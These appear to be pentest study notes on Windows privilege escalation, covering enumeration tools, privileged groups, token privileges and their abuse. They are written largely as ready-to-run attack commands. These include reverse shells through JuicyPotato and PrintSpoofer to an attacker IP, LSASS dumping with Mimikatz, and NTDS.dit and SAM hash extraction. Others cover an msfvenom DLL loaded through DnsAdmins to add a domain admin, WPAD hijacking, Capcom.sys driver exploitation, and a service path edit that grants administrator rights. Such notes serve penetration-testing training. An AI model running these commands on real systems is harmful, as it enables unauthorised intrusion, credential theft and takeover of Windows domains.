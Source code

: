 # Useful Tools

| Tool                                                                                                     | Description                                                                                                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [Seatbelt](https://github.com/GhostPack/Seatbelt)                                                        | C# project for performing a wide variety of local privilege escalation checks                                                                                                                                                                                                                                             |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained [here](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)                                                                                                          |
| [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)      | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found                                                                                                                                                         |
| [SharpUp](https://github.com/GhostPack/SharpUp)                                                          | C# version of PowerUp                                                                                                                                                                                                                                                                                                     |
| [JAWS](https://github.com/411Hall/JAWS)                                                                  | PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0                                                                                                                                                                                                                                  |
| [SessionGopher](https://github.com/Arvanaghi/SessionGopher)                                              | SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information                                                                                                                         |
| [Watson](https://github.com/rasta-mouse/Watson)                                                          | Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.                                                                                                                                                                                                    |
| [LaZagne](https://github.com/AlessandroZ/LaZagne)                                                        | Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more                                                                             |
| [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)                        | WES-NG is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported                 |
| [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)         | We will use several tools from Sysinternals in our enumeration including [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk), [PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist), and [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) |

We can also find pre-compiled binaries of `Seatbelt` and `SharpUp` [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries), and standalone binaries of `LaZagne` [here](https://github.com/AlessandroZ/LaZagne/releases/). It is recommended that we always compile our tools from the source if using them in a client environment.

# Privileged groups

|**Group**|**Description**|
|---|---|
|Default Administrators|Domain Admins and Enterprise Admins are "super" groups.|
|Server Operators|Members can modify services, access SMB shares, and backup files.|
|Backup Operators|Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.|
|Print Operators|Members can log on to DCs locally and "trick" Windows into loading a malicious driver.|
|Hyper-V Administrators|If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins.|
|Account Operators|Members can modify non-protected accounts and groups in the domain.|
|Remote Desktop Users|Members are not given any useful permissions by default but are often granted additional rights such as `Allow Login Through Remote Desktop Services` and can move laterally using the RDP protocol.|
|Remote Management Users|Members can log on to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs).|
|Group Policy Creator Owners|Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU.|
|Schema Admins|Members can modify the Active Directory schema structure and backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL.|
|DNS Admins|Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to [create a WPAD record](https://web.archive.org/web/20231115070425/https://cube0x0.github.io/Pocing-Beyond-DA/).|

# User rights

| Setting [Constant](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | Setting Name                                                                                                                                                                              | Standard Assignment                                     | Description                                                                                                                                                                                                                                                                                                                                                |
| ----------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SeNetworkLogonRight                                                                             | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network)               | Administrators, Authenticated Users                     | Determines which users can connect to the device from the network. This is required by network protocols such as SMB, NetBIOS, CIFS, and COM+.                                                                                                                                                                                                             |
| SeRemoteInteractiveLogonRight                                                                   | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | This policy setting determines which users or groups can access the login screen of a remote device through a Remote Desktop Services connection. A user can establish a Remote Desktop Services connection to a particular server but not be able to log on to the console of that same server.                                                           |
| SeBackupPrivilege                                                                               | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories)                               | Administrators                                          | This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.                                                                                                                                                                                         |
| SeSecurityPrivilege                                                                             | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log)                         | Administrators                                          | This policy setting determines which users can specify object access audit options for individual resources such as files, Active Directory objects, and registry keys. These objects specify their system access control lists (SACL). A user assigned this user right can also view and clear the Security log in Event Viewer.                          |
| SeTakeOwnershipPrivilege                                                                        | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects)         | Administrators                                          | This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads.                                                                                                                                |
| SeDebugPrivilege                                                                                | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs)                                                             | Administrators                                          | This policy setting determines which users can attach to or open any process, even a process they do not own. Developers who are debugging their applications do not need this user right. Developers who are debugging new system components need this user right. This user right provides access to sensitive and critical operating system components. |
| SeImpersonatePrivilege                                                                          | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)       | Administrators, Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user.                                                                                                                                                                                                                |
| SeLoadDriverPrivilege                                                                           | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers)                             | Administrators                                          | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code.                                                                                      |
| SeRestorePrivilege                                                                              | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories)                               | Administrators                                          | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which users can set valid security principals as the owner of an object.                                                                                       |

# SeImpersonate and SeAssignPrimaryToken

The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

## JuicyPotato

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```shell
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

```shell
sudo nc -lnvp 8443
```

## PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

```cmd
PrintSpoofer.exe -c "ncat.exe 10.10.14.3 8443 -e cmd"
```

```shell
nc -lnvp 8443
```

# SeDebugPrivilege

By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

> [!NOTE]
> Note: It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.

```cmd
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

## Remote Code Execution as SYSTEM

```embed
title: "GitHub - decoder-it/psgetsystem: getsystem via parent process using ps1 & embeded c#"
image: "https://opengraph.githubassets.com/3ab3c8a61a4fefb8f5a0ec50d80c762cc413a58d36225abef5ffe575c059f73a/decoder-it/psgetsystem"
description: "getsystem via parent process using ps1 & embeded c# - decoder-it/psgetsystem"
url: "https://github.com/decoder-it/psgetsystem"
```

```embed
title: "PrivFu/PrivilegedOperations/SeDebugPrivilegePoC at main · daem0nc0re/PrivFu"
image: "https://opengraph.githubassets.com/87935b3f26d713d31d02c15151d94dcc93d330f4026a0a591bb36966d09af47e/daem0nc0re/PrivFu"
description: "Kernel mode WinDbg extension and PoCs for token privilege investigation. - daem0nc0re/PrivFu"
url: "https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC"
```

# SeTakeOwnershipPrivilege

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as `SeBackupPrivilege`, `SeRestorePrivilege`, and `SeSecurityPrivilege` to control this account's privileges at a more granular level and not granting the account full local admin rights.

These privileges on their own could likely be used to escalate privileges. Still, there may be times when we need to take ownership of specific files because other methods are blocked, or otherwise, do not work as expected. Abusing this privilege is a bit of an edge case. Still, it is worth understanding in-depth, especially since we may also find ourselves in a scenario in an Active Directory environment where we can assign this right to a specific user that we can control and leverage it to read a sensitive file on a file share.

Suppose we encounter a user with this privilege or assign it to them through an attack such as GPO abuse using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse). In that case, we could use this privilege to potentially take control of a shared folder or sensitive files such as a document containing passwords or an SSH key.

#### Enabling SeTakeOwnershipPrivilege

Notice from the output that the privilege is not enabled. We can enable it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) blog post, as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

> [!NOTE]
> Note: Take great care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something we would do without consent from our client first. Furthermore, changing ownership of a file buried down several subdirectories (while changing each subdirectory permission on the way down) may be difficult to revert and should be avoided.

Let's check out our target file to gather a bit more information about it.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }
```

Checking File Ownership

```powershell
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

## Files of Interest

```plain
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

We may also come across `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.

# Windows Built-in Groups

Backup Operators 	Event Log Readers 	DnsAdmins
Hyper-V Administrators 	Print Operators 	Server Operators

## Backup Operators

Membership of this group grants its members the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the [FILE_FLAG_BACKUP_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) flag.

We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. First, let's import the libraries in a PowerShell session.

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

### Attacking a Domain Controller - Copying NTDS.dit

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.

```powershell
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Backing up SAM and SYSTEM Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

```cmd
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.

### Extracting Credentials from NTDS.dit

```powershell
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

### Extracting Hashes Using SecretsDump

We can also use `SecretsDump` offline to extract hashes from the `ntds.dit` file obtained earlier. These can then be used for pass-the-hash to access additional resources or cracked offline using `Hashcat` to gain further access.

```shell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### Copying Files with Robocopy

The built-in utility [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more.

```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

This eliminates the need for any external tools.

### NetExec module

```shell
nxc smb dc -u user -p pass -M backup_operator
```

# Event Log Readers

Administrators or members of the [Event Log Readers](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers) group have permission to access this log. It is conceivable that system administrators might want to add power users or developers into this group to perform certain tasks without having to grant them administrative access.

We can query Windows events from the command line using the [wevtutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil) utility and the [Get-WinEvent](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.1) PowerShell cmdlet.

```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

```cmd
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

```powershell

Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

The cmdlet can also be run as another user with the `-Credential` parameter.

Other logs include [PowerShell Operational](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.1) log, which may also contain sensitive information or credentials if script block or module logging is enabled. This log is accessible to unprivileged users.

# DnsAdmins

The DNS service runs as `NT AUTHORITY\SYSTEM`, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL. As detailed in this excellent [post](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common)

- DNS management is performed over RPC
- [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the `dnscmd` tool from the command line
- When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

## ServerLevelPluginDll

Generating Malicious DLL

```shell
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Download the file to the target

```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

Loading DLL as Non-Privileged User

```cmd hl:5
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

As expected, attempting to execute this command as a normal user isn't successful. Only members of the `DnsAdmins` group are permitted to do this.

Loading DLL as Member of DnsAdmins

```cmd hl:4
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

## Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

## Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

Disabling the Global Query Block List

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

Adding a WPAD Record

```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

# Print Operators

[Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, we will need to bypass UAC.

The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. Alternatively, from a GUI, we can open an administrative command shell and input the credentials of the account that is a member of the Print Operators group. If we examine the privileges again, `SeLoadDriverPrivilege` is visible but disabled.

```cmd hl:9
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

t's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.
## Use ExploitCapcom Tool to Escalate Privileges

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

This launches a shell with SYSTEM privileges.

## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

## Automating the Steps

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

```cmd
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

> [!NOTE]
> Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".

# Server Operators

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

Querying the AppReadiness Service

```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

```cmd
sc start AppReadiness
```

```cmd
net localgroup Administrators
```

# User Account Control

Confirming UAC is Enabled

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Checking UAC Level

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

Checking Windows Version

```powershell
[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

